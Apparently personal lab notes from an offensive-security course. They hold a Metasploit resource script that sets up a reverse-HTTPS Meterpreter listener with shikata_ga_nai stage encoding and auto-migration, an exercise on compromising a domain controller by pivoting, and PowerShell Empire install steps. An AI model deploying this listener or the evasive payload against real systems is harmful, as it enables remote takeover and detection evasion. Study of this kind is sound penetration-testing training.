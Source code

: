 
```
22.5.4.1 Exercise p719
1. Use post-exploitation modules and extensions along with pivoting techniques to enumerate
and compromise the domain controller from a meterpreter shell obtained from your
Windows 10 client.
```

### automation

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z

//save and execute
sudo msfconsole -r setup.rc

22.6.1.1 Exercise p721
1. Create a resource script using both a second stage encoder and autorun scripts and use it
with the meterpreter payload.
```



# Power Empire

basic
While Empire seems to share many features with the Metasploit Framework, they are quite
different in nature. Metasploit includes a vast collection of exploits designed to gain initial access.
Empire, on the other hand, is designed as a post-exploitation tool targeted primarily at Active
Directory environments. It tends to leverage built-in features of the target operating system and
its major applications.

listeners -- multi/handler
stager    -- same to exploit 
agent     -- sessions

## install
```bash
# https://github.com/EmpireProject/Empire.git
## install error
## https://zhuanlan.zhihu.com/p/499519304
## https://blog.csdn.net/wuxinweii/article/details/121152538
## db readonly error, change data/empire.db
cd ~
git clone https://github.com/EmpireProject/Empire.git
cd Empire/
./setup/install.sh
./empire

# or install 
## https://bc-security.gitbook.io/empire-wiki/quickstart/installation
```
